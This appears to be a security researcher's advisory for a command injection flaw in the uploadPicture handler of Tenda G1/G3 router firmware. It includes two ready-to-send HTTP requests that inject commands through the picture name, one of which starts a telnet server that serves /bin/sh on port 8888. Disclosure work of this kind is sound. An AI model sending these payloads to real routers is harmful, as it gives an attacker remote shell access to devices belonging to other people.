








# Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability in Tenda router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `uploadPicture` function, An attacker can upload pictures to the router, `pic_name` is directly passed by the attacker, so we can control the `pic_name` to attack the OS.

<div  align="center"></div>

First, you need to understand the processing flow of the `webCgiGetUploadPictureFile` function.

In this code, the input is strictly processed:

- The characters' - 'and' \ n 'exist in the first field
- There are two consecutive characters "\n"
- Extract the **picture name** from the front of the string "--"
- The second half of the string needs to contain the string "filename" and two consecutive characters "\n"

<div  align="center"></div>

Subsequently, there will be a judgment logic, `pic_name` must contain a suffix string representing the image file to enter the code block triggered by the vulnerability.

<div  align="center"></div>

And we can see that if the command injection is successful, the injected string and result can be returned, which is shown in the subsequent vulnerability verification section.

<div  align="center"></div>

**Supplement**

We observed that there is no corresponding HTML page, but this processing flow for specific protocol fields is saved in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `pic_name` as:

```http
POST /cgi-bin/uploadPicture HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------24215928642961670398380275938
Content-Length: 287
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/sysManage/backupRecover.html?0.7419783542109053
Cookie: _:USERNAME:_=; G3v3_user=
Upgrade-Insecure-Requests: 1

-----------------------------24215928642961670398380275938

`/usr/sbin/telnetd`a.jpg  --
Content-Disposition: form-data; name="fileSearch"; filename="1"
Content-Type: application/octet-stream

--2021-12-19 16:33:13--

-----------------------------24215928642961670398380275938--
```

<div  align="center"></div>

> It is best to be able to send the payload in the above format

We set `pic_name` as:

```http
POST /cgi-bin/uploadPicture HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------24215928642961670398380275938
Content-Length: 307
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/sysManage/backupRecover.html?0.7419783542109053
Cookie: _:USERNAME:_=; G3v3_user=
Upgrade-Insecure-Requests: 1

-----------------------------24215928642961670398380275938

`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`a.jpg  --
Content-Disposition: form-data; name="fileSearch"; filename="1"
Content-Type: application/octet-stream

--2021-12-19 16:33:13--

-----------------------------24215928642961670398380275938--
```

<div  align="center"></div>


## Result

The target router has enabled the telnet service.

<div  align="center"></div>

Get a shell!

<div  align="center"></div>
